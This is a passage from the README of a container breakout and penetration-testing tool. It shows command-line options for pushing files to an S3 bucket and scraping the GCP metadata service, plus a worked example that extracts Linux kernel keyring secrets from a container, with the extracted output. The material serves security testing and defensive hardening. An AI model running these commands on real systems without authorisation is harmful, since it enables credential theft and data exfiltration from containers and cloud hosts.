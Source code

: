 ```
        Push a file to S3 e.g Full command to push to https://YOURBUCKET.s3.eu-west-2.amazonaws.com/FILENAME would be: -region eu-west-2 -s3bucket YOURBUCKET -s3push FILENAME (default "nil")
  -scrape-gcp
        Attempt to scrape the GCP metadata service
  -verbose
        Verbose output
  -wordlist string
        Provide a wordlist (default "nil")

```

BOtB can also be instructed to load settings from a YAML file via the config parameter
```
#./botb-linux-amd64 -config=cfg.yml
[+] Break Out The Box
[+] Loading Config: cfg.yml
...
```

The following usage examples will return a Exit Code > 0 by default when an anomaly is detected, this is depicted by "echo $?" which shows the exit code of the last executed command.

### Identify and Extract Linux Kernel Keyring Secrets that have not been properly protected
More info from the original author here https://www.antitree.com/2020/07/keyctl-unmask-going-florida-on-the-state-of-containerizing-linux-keyrings/
```
#./botb-linux-amd64 -pwnKeyctl=true -keyMin=0 -keyMax=100000000
[+] Break Out The Box
[*] Attempting to Identify and Extract Keyring Values
[!] WARNING, this can be resource intensive and your pod/container process may be killed, iterate over min and max with 100000000 increments to be safe
[!] Subkey description for key [251133632]: user;0;0;3f010000;brompwnie_secret
[!] Output {
 "KeyId": 13738777,
 "Valid": true,
 "Name": "_ses.e326b8816c24d0ddda6c2c82ecf62ea2302a7239fce2fd104775d154a97fa3d6",
 "Type": "keyring",
 "Uid": "0",
 "Gid": "0",
 "Perms": "3f1b0000",
 "String_Content": "\ufffd\ufffd\ufffd\u000e",
 "Byte_Content": "wP73Dg==",
 "Comments": null,
 "Subkeys": [
  {
   "KeyId": 251133632,
   "Valid": true,
   "Name": "brompwnie_secret",
   "Type": "user",
   "Uid": "0",
   "Gid": "0",
   "Perms": "3f010000",
   "String_Content": "thetruthisialsoreallyliketrees",
   "Byte_Content": "dGhldHJ1dGhpc2lhbHNvcmVhbGx5bGlrZXRyZWVz",
   "Comments": null,
   "Subkeys": null,
   "Output": ""
  }
 ],
 "Output": ""
}
[+] Finished
```
